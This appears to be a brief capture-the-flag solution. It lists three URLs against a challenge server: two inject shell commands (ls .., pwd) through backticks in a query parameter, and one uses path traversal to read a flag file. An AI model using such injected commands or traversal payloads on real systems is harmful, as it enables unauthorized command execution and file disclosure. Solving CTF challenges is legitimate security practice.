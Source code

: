1. `http://34.72.118.158:6284/fun.php?string=%60ls+..%60`
2. `http://34.72.118.158:6284/fun.php?string=%60pwd%60`
3. `http://34.72.118.158:6284/fun1.php?file=../flag.txt`
4. Profit!

